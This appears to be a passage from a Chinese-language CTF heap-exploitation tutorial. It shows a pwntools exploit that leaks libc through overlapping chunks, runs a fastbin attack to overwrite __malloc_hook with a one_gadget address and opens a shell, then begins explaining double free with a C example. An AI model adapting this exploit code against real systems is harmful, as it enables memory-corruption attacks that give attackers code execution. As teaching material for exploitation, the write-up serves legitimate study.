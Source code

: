 ```python
# 因此chunk2的fd和bk都会指向main_arena，此时打印chunk1，打印的实际上是chunk1+chunk2两个块，因此可以打印出chunk2的fd和bk，并由此得出&main_arena、libc_addr。
allocate(0x80)
allocate(0x80)
allocate(0x80)
allocate(0x20) # 没有这个 做不出来 挺怪的
free(1)
fill(0, 0x90, b'a'*0x80 + p64(0) + p64(0x121))
allocate(0x110)
payload = b'a'*0x80 + p64(0) + p64(0x91) + b'c'*0x80 
fill(1, len(payload), payload)
free(2)
dump(1)
main_arena = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x58
info('the addr of main_arena is {}'.format(hex(main_arena)))
libc_addr = main_arena - 0x3c4b20
info('the libc addr is {}'.format(hex(libc_addr)))
fake_chunk_addr = libc_addr + 0x3c4aed
info('the fake_chunk_addr is {}'.format(hex(fake_chunk_addr)))
malloc_hook = libc_addr + 0x3c4b10
info('the addr of malloc_hook is {}'.format(hex(malloc_hook)))

# 接下来是fastbin attack
allocate(0x80) # 还原
# 此时到这里 前面几个chunk不管了 接下来是以chunk4开始的fast bin大小的chunk
allocate(0x60) # chunk4
allocate(0x60) # chunk5
free(5)
payload = b'd'*0x60 + p64(0x70) + p64(0x71) + p64(fake_chunk_addr)
fill(4, len(payload), payload)
allocate(0x60) # 还是chunk5
allocate(0x60) # chunk6

one_gadget = 0x4526a
payload = b'a'*(0x23 - 0x10) + p64(libc_addr + one_gadget)
fill(6, len(payload), payload)

allocate(0x10)
sh.interactive()
```



### Double Free

顾名思义，也就是将一个已经在`fastbins`里面的`chunk`再次添加到`fastbins`里面去，添加完成后就会有两个同样的`chunk`在一个`bins`里面。

比如：

```c
void* chunk1 = malloc(0x10);
void* chunk2 = malloc(0x10);

free(chunk1);
free(chunk2);
free(chunk1);
```

